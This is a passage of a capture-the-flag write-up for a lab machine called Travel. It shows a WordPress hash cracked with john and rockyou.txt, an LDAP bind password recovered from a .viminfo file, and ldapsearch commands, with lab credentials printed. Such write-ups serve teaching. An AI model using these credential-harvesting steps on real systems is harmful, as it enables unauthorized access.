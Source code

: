 <br>
## On the box
This was hard work but the steps to user are walked fast: A bit of enumeration shows an unusual SQL dump in /opt:
```bash
INSERT INTO `wp_users` VALUES (1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```
Cracking the PW of lynik-admin with john and the usual `rockyou.txt` results in `1stepcloser` which made me smirk. This is his ssh password and we obtain the user flag, now smiling.
{: .text-justify}
```bash
lynik-admin@travel:~$ ls
user.txt
```
<br>
# Root part.
It's a good habit to start looking where you land and here, it paid big time: 
```bash
lynik-admin@travel:~$ ls -a
.  ..  .bash_history  .bash_logout  .bashrc  .cache  .ldaprc  .profile  user.txt  .viminfo
lynik-admin@travel:~$ cat .ldaprc 
HOST ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```
To verify we are on the right track we look at `/etc/hosts` to see if/how the domain is resolved:
```bash
lynik-admin@travel:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 travel
172.20.0.10 ldap.travel.htb
```
## Connecting the dots
We start out by trying to query the ldap service right away and are greeted by `Invalid credentials` using several passwords we found along the way:
```bash
lynik-admin@travel:~$ ldapsearch ldap.travel.htb -D "cn=lynik-admin,dc=travel,dc=htb" "uid=lynik-admin" -x -w 1stepcloser
ldap_bind: Invalid credentials (49)
```
Thus we investigate our home directory even more and find the LDAP password inside `.viminfo`:
```bash
lynik-admin@travel:~$ cat .viminfo 
[snip]
# Registers:
""1     LINE    0
        BINDPW Theroadlesstraveled
|3,1,1,1,1,0,1587670528,"BINDPW Theroadlesstraveled"
```
Now, the above `ldapsearch` command works using `Theroadlesstraveled` as password. We notice a bunch of users and that lynik-admin is a LDAP admin:
```bash
ldapsearch -x -H ldap://ldap.travel.htb -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled
# lynik-admin, travel.htb
dn: cn=lynik-admin,dc=travel,dc=htb
description: LDAP administrator
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: lynik-admin
```